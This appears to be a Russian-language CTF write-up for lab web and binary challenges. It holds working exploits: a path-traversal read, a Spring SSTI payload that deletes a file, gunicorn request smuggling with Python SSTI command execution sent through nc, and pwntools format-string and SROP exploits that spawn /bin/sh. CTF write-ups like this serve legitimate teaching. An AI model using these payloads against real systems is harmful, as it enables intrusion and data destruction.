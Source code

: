 # Task-Based
## Web
### Web1
Заходим на сайт видим подсвеченный номер-ссылку одной из ячеек календаря.
Переходим видим hint_1 понимаем, что это уязвимость Path Traversal.
Добавляем после равно в url хинта ../../etc/secret выгружаем файл на наш компьютер, получаем флаг.
### Web2
Находим ssti в /doc/ и пример эксплуатации: https://www.veracode.com/blog/secure-development/spring-view-manipulation-vulnerability.
Изначально в директории /login перед чтением пароля из файла password.txt переменной adminPassword присваивается значение по умолчанию: password.
Значит, c помощью ssti в /doc можно удалить password.txt, а затем в /login с помощью get-параметра password передать значение по умолчанию.
Exploit:
```bash
sudo apt install httpie
http get http://192.168.12.13:8090/doc/__%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22rm%20password.txt%22%29%7D__%3A%3A.xRY
http get http://192.168.12.13:8090/login?password=password  
```
### Web3
Изучив содержимое Dockerfile'а замечаем, что версия gunicorn уязвима к http request smuggling 
https://grenfeldt.dev/2021/04/01/gunicorn-20.0.4-request-smuggling/
Значит, мы можем отправить запрос на директорию flag (на которую мы изначально зайти не можем из-за запрета в конфиге haproxy), в которой есть уязвимость ssti с обходом списка запретов. Нам подходит такой payload: {self.__init__.__globals__.__builtins__.__import__('os').popen('cat+flag.txt').read()}}.
Exploit:
```bash
echo -en "GET / HTTP/1.1\r\nHost: localhost\r\nContent-Length: 161\r\nSec-Websocket-Key1: x\r\n\r\nxxxxxxxxGET /flag?name={{self.__init__.__globals__.__builtins__.__import__('os').popen('cat+flag.txt').read()}} HTTP/1.1\r\nHost: localhost\r\nContent-Length: 35\r\n\r\nGET / HTTP/1.1\r\nHost: localhost\r\n\r\n" | nc 192.168.12.11 8001
```
## Pwn
### Pwn1
Заметим, что в бинарном файле происходит выполнение функции printf с контролируемым пользователем первым аргументом. В таких случаях можно применить уязвимость format string, позволяющую перезаписывать информацию по произвольному адресу. В данном случае отключены защиты, отвечающие за запрет перезаписи GOT и рандомизации адресов (адреса функций в бинарном файле статичны и их можно переписывать).
В данном случае можно переписать в GOT адрес функции exit на адрес функции win, тем самым запустив system("/bin/sh").
Exploit:
``` python
from pwn import *

context.arch = "amd64"
main_addr = 0x40116c
exit_got = 0x404018
printf_got = 0x404008
fgets_got = 0x404010
system_addr = 0x404000
offset = 6

def leak_offset():
    for i in range(1,20):
        p = process("/home/kali/Downloads/main")
        p.sendline(b"A" * 8 + f"%{i}$llx".encode().ljust(8,b"|") + b"A" * 8)
        print(i,p.recvline())
        p.close()

p = connect("192.168.12.13",1923)
 
payload = fmtstr_payload(offset,{exit_got:0x401156}) # exit got to win_func
print(payload)
p.sendline(payload)
p.interactive()
```
### Pwn2
Открыв бинарный файл, замечаем, что при запуске программы запускается только один syscall на read() по адресу rsp с размером буфера 500. Также сразу после вызова syscall'а и окончания бинарного файла лежат инструкции ассемблера pop rax; ret, которые можно использовать для построения ROP-цепочки. В данном случае применяется техника SROP, которая позволяет поменять нужные нам регистры и переписать адрес rdi на адрес строки "/bin/sh\x00", которую при запуске с помощью echo -ne "/bin/sh\x00" засовывают в бинарный файл. Так как адреса в данном бинаре статичные, и у нас есть все нужные компоненты для применения техники SROP, мы можем вызвать syscall execve("/bin/sh"), тем самым получив удаленный доступ.
Exploit:
```python
from pwn import *

context.arch = "amd64"
p = connect("192.168.12.13", 1555)

BINSH = 0x41430
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()

```
## Rev
### Rev1



## Crypto
### Crypto1


## Forensics
### Первая машина (Windows)



### Вторая машина (Debian)

